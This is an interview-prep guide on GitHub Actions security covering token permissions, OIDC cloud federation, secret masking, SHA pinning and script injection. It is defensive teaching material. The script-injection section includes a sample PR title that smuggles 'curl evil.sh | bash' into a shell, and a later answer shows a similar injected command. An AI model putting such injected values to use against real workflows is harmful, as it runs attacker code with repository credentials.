



# SECTION 4: Security & OIDC

> **Scope:** The `GITHUB_TOKEN` and its `permissions`, OIDC federation to cloud providers (no stored secrets), secrets handling, supply-chain hardening (SHA pinning), and script-injection defense.

---

## 🗺️ Visual Overview

**In one line:** GitHub Actions security is about **minimizing standing credentials** — scope the auto-token to least privilege, replace long-lived cloud secrets with **short-lived OIDC tokens**, mask real secrets, pin action code by SHA, and never let untrusted input reach a shell.

**Mind map — the security surface:**



**OIDC token federation — no long-lived secrets (the single most-asked security topic):**



**Script injection — why untrusted input must never touch a shell directly:**



> 🧠 **Memory hooks (mnemonics):**
> - **OIDC win:** *"No secret to steal if there's no secret to store"* — `id-token` gives short-lived creds via the `sub` claim.
> - **Token default:** *"Read by default, write on demand"* — set `permissions: contents: read` at top, widen per-job only where needed.
> - **Injection rule:** *"Untrusted input goes through `env`, never into `run` directly."*
> - **Supply chain:** *"Tags move, SHAs don't"* — pin third-party actions by full commit SHA.

---

## 1. The `GITHUB_TOKEN` & Permissions

> 🎯 **Interview weight:** Very High. Least-privilege token scoping is table stakes at senior level.

**In one line:** Every run gets an **automatically-issued `GITHUB_TOKEN`** that authenticates to the repo, is **scoped by the `permissions` block**, and **expires when the run ends** — so the fix for over-broad access is narrowing permissions, not rotating a secret.

```yaml
permissions:            # workflow-level default (recommended: start read-only)
  contents: read
jobs:
  release:
    permissions:        # widen only where needed, per job
      contents: write   # create a release/tag
      packages: write   # push to GHCR
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
```

- The token is **ephemeral** — no rotation needed; it dies with the run.
- Default org/repo settings may grant broad scopes; **explicitly** declaring `permissions:` overrides that with least privilege.
- Common scopes: `contents`, `packages`, `pull-requests`, `issues`, `id-token`, `deployments`, `actions`.

> 💡 **Interview tip:** *"The `GITHUB_TOKEN` isn't a secret you manage — it's minted per run and scoped by `permissions`. I default the whole workflow to `contents: read` and grant `write` scopes only on the specific job that needs them."*

> ⚠️ **Gotcha:** Forgetting to declare `permissions:` means the job inherits the **repo/org default**, which is often broader than needed. Explicit least-privilege at the top is the safe baseline.

---

## 2. OIDC Federation to Cloud

> 🎯 **Interview weight:** 🔥 Very High. The **single most-asked** GitHub Actions security topic — expect to explain the full handshake.

**In one line:** OIDC lets a workflow exchange a **short-lived, GitHub-signed JWT** for temporary cloud credentials, so you store **no long-lived cloud secret** at all; the cloud provider trusts the token only if its `sub` claim matches a trust policy.

**The handshake (four steps):**
1. Workflow requests a token — requires `permissions: id-token: write`.
2. GitHub issues a **JWT** with claims: `iss` (GitHub's issuer), `sub` (e.g., `repo:org/repo:ref:refs/heads/main`), `aud`, `exp`.
3. A cloud-login action presents the JWT to the provider.
4. The provider **validates the signature** against GitHub's JWKS and checks the claims against its **trust policy**, then issues short-lived credentials.

**AWS example — zero stored secrets:**

```yaml
permissions:
  id-token: write   # REQUIRED — without this, no token is minted
  contents: read
jobs:
  deploy:
    runs-on: ubuntu-latest
    steps:
      - uses: aws-actions/configure-aws-credentials@v4
        with:
          role-to-assume: arn:aws:iam::123456789012:role/GitHubActionsRole
          aws-region: us-east-1
      - run: aws s3 sync ./dist s3://my-bucket/
```

The AWS IAM role's trust policy scopes **exactly** which workflow can assume it:

```json
{
  "Effect": "Allow",
  "Principal": { "Federated": "arn:aws:iam::123456789012:oidc-provider/token.actions.githubusercontent.com" },
  "Action": "sts:AssumeRoleWithWebIdentity",
  "Condition": {
    "StringEquals": { "token.actions.githubusercontent.com:aud": "sts.amazonaws.com" },
    "StringLike":   { "token.actions.githubusercontent.com:sub": "repo:myorg/myrepo:ref:refs/heads/main" }
  }
}
```

The same model works for **Azure** (`azure/login` with `client-id`/`tenant-id`, federated credential) and **GCP** (`google-github-actions/auth` with a Workload Identity Provider).

> 💡 **Interview tip:** The whole win in one sentence — *"OIDC trades a stored long-lived secret for a short-lived token the cloud validates against a trust policy scoped to the `sub` claim."*

> ⚠️ **Gotcha #1:** Forgetting `permissions: id-token: write` is the **#1 OIDC failure** — GitHub won't mint the token and the cloud login fails.

> ⚠️ **Gotcha #2:** Scope the trust-policy `sub` **tightly** (`repo:org/repo:ref:refs/heads/main`), never `repo:org/repo:*` — a wildcard lets **any branch or PR** assume the role, which an attacker can exploit via a crafted branch.

---

## 3. Secrets

> 🎯 **Interview weight:** High. Scopes, masking, and fork-PR behavior are all fair game.

**In one line:** Secrets are encrypted values injected at runtime, **masked in logs**, scoped at **repo / org / environment** levels, and deliberately **withheld from fork PRs**.

| Scope | Use |
|---|---|
| **Repository** | Single-repo secrets |
| **Organization** | Shared across repos (with repo-access policy) |
| **Environment** | Bound to a deployment environment + its protection rules (reviewers, wait timer) |

- Secrets are **masked** — GitHub replaces their values with `***` in logs (but only exact matches; a base64 or partial form can leak).
- **Fork PRs get no secrets** and a read-only token (see Section 1) — prevents exfiltration by untrusted contributors.
- Runtime-generated sensitive values can be masked with `echo "::add-mask::$VALUE"`.

> ⚠️ **Gotcha:** Masking is a **literal string match**. If you transform a secret (base64-encode it, log a substring, or print JSON containing it), the transformed form is **not** masked and leaks. Never `echo` secrets, even "for debugging."

---

## 4. Supply-Chain Hardening

> 🎯 **Interview weight:** High. SHA pinning and third-party action risk tie directly to real-world incidents.

**In one line:** Third-party actions execute **in your runner with your token and secrets**, so treat them as dependencies: **pin by full commit SHA**, audit source, and automate updates with Dependabot.

- **Pin by SHA:** `uses: actions/checkout@8f4b7f2...` is immutable; `@v4` is a movable tag a compromised maintainer could re-point.
- **Audit** what a third-party action does before adopting it; prefer verified/known publishers.
- **Dependabot** opens PRs bumping pinned SHAs so you keep the review gate without manual tracking.
- **Restrict which actions can run** via org policy (allow only `actions/*` + an allowlist).

> 💡 **Interview tip:** Connect it to impact: *"A hijacked tag on a popular action runs attacker code in thousands of pipelines with their tokens — SHA pinning turns that from a silent supply-chain compromise into a no-op."*

---

## 5. Script Injection

> 🎯 **Interview weight:** High. A favorite "spot the vulnerability" question.

**In one line:** Interpolating untrusted event data (`${{ github.event.* }}`) straight into a `run:` block executes attacker-controlled text **as shell commands**, because `${{ }}` is expanded **before** the shell runs — route it through `env:` instead.

**Vulnerable:**

```yaml
- run: echo "Title: ${{ github.event.pull_request.title }}"   # ❌ injection
  # A PR titled: "; curl evil.sh | bash #  runs arbitrary code
```

**Safe:**

```yaml
- env:
    TITLE: ${{ github.event.pull_request.title }}   # ✅ passed as data
  run: echo "Title: $TITLE"                          # shell sees a variable, not code
```

Untrusted fields include PR **title/body**, branch/ref names, issue comments, and any `github.event.*` a contributor controls.

> ⚠️ **Gotcha:** `pull_request_target` compounds this — it runs with **secrets and a write token** in the base-repo context. Combine it with checking out and running untrusted PR code and you hand attackers your credentials. Never execute PR-authored code under `pull_request_target`.

---

## Interview Questions & Answers

### Q1. Explain OIDC in GitHub Actions and why it's better than storing cloud keys.

**Crisp answer:** OIDC lets a workflow request a **short-lived, GitHub-signed JWT** and exchange it for temporary cloud credentials via the provider's trust policy — so there's **no long-lived access key stored** in GitHub to leak, rotate, or steal.

**Internals:** With `id-token: write`, GitHub mints a JWT whose `sub` claim identifies the exact repo/branch/environment. A cloud-login action presents it; the provider verifies GitHub's signature (JWKS) and that `sub`/`aud` match its federated trust policy, then returns short-lived creds (e.g., STS `AssumeRoleWithWebIdentity`). The token expires in minutes.

**Follow-up — "What's the most common OIDC misconfiguration?"** Two: (1) forgetting `permissions: id-token: write`, so no token is issued; (2) a **too-broad `sub` condition** like `repo:org/repo:*`, which lets any branch/PR assume the role. Scope `sub` to the specific ref/environment.

---

### Q2. How is the `GITHUB_TOKEN` different from a normal secret, and how do you secure it?

**Crisp answer:** It's **auto-issued per run**, **scoped by the `permissions` block**, and **expires when the run ends** — you never store or rotate it. You secure it by defaulting the workflow to `contents: read` and granting `write` scopes only on the specific jobs that need them.

**Internals:** It authenticates as a special GitHub App installation for the run. Its power is entirely determined by `permissions:` (workflow- or job-level). Absent an explicit block, it inherits repo/org defaults, which are often broader than required.

**Follow-up — "Can it trigger other workflows?"** By design, events created using the default `GITHUB_TOKEN` **don't trigger** further workflow runs (prevents recursion). If you *need* that, use a PAT or GitHub App token — and accept the added credential-management burden.

---

### Q3. Show me a script-injection vulnerability in a workflow and fix it.

**Crisp answer:** Any `run:` that interpolates untrusted `${{ github.event.* }}` — e.g. `echo "${{ github.event.pull_request.title }}"` — is injectable, because `${{ }}` expands before the shell sees it. Fix it by passing the value through `env:` and referencing the quoted variable (`"$TITLE"`).

**Internals:** Expression substitution happens at YAML-composition time; the shell then executes the already-substituted text. A PR title of `"; malicious-cmd #` becomes literal shell. Via `env:`, the value is set as an environment variable and the shell treats it as inert data.

**Follow-up — "Which inputs are untrusted?"** Anything a contributor controls: PR title/body, branch/ref names, issue/comment text — all `github.event.*` fields. Assume they're hostile and never let them reach a shell or an `eval`.

---

### Q4. Why don't fork PRs get secrets, and what's the `pull_request_target` trap?

**Crisp answer:** Fork PRs run `pull_request` with a **read-only token and no secrets**, so untrusted contributors can't exfiltrate credentials. `pull_request_target` is the trap: it runs in the **base repo** context **with** secrets and write token — safe only if it does **not** execute the PR's code.

**Internals:** `pull_request_target` exists for trusted automation (labeling, commenting) that needs real permissions. The vulnerability appears when maintainers also `checkout` the PR head and run its build/test scripts under it — that code then runs with full secrets.

**Follow-up — "Safe pattern for building untrusted PRs?"** Build/test under plain `pull_request` (no secrets exposed). If you must post results with elevated rights, do that in a **separate** `pull_request_target`/`workflow_run` job that consumes artifacts but never runs PR-authored code.

---

### Q5. How do you harden third-party actions against supply-chain attacks?

**Crisp answer:** **Pin by full commit SHA** (immutable), audit the action's source before adoption, prefer verified publishers, restrict allowed actions via org policy, and use **Dependabot** to review-and-bump the SHAs.

**Internals:** A movable tag (`@v4`) can be re-pointed by a compromised maintainer account to malicious code that runs with your `GITHUB_TOKEN` and secrets. A pinned SHA guarantees you execute exactly the reviewed commit. Org-level action allowlists shrink the attack surface to a vetted set.

**Follow-up — "Doesn't SHA pinning stop security patches?"** No — Dependabot opens PRs bumping the SHA when upstream releases; you review the diff and merge. You keep updates **and** the review gate, eliminating silent tag hijacks.

---

## 🔧 Troubleshooting Quick Reference

| Symptom | Likely cause | Fix |
|---|---|---|
| OIDC login fails | Missing `id-token: write` | Add to `permissions` |
| OIDC "not authorized to assume role" | `sub` doesn't match trust policy | Align `sub` (repo/ref/env) with the condition |
| `GITHUB_TOKEN` "resource not accessible" | Missing scope | Add the needed `permissions:` scope on the job |
| Secret prints as real value | Transformed form not masked | Never echo/encode secrets; use `::add-mask::` |
| Fork PR "secret is empty" | By design — no secrets on fork PRs | Build without secrets; elevate in a separate job |

---

## ✅ Best Practices

- **Default `permissions: contents: read`**; grant `write`/`id-token` narrowly per job.
- **Prefer OIDC** over stored cloud keys; scope trust-policy `sub` to exact ref/environment.
- **Never interpolate untrusted input** into `run:` — route through `env:`.
- **Pin third-party actions by SHA**; enable Dependabot; use org action allowlists.
- **Guard `pull_request_target`** — never run PR-authored code with secrets.
- **Protect deployment environments** with required reviewers and wait timers.

---

## 📚 Documentation Links

| Topic | Link |
|---|---|
| Security hardening | https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions |
| OIDC in cloud providers | https://docs.github.com/en/actions/deployment/security-hardening-your-deployments/configuring-openid-connect-in-cloud-providers |
| Automatic token authentication | https://docs.github.com/en/actions/security-guides/automatic-token-authentication |
| Encrypted secrets | https://docs.github.com/en/actions/security-guides/encrypted-secrets |

---

**[← Previous: Section 3 — Runners & Execution](./03-RUNNERS-EXECUTION.md)** | **[Next: Section 5 — CI/CD Patterns →](./05-CICD-PATTERNS.md)**
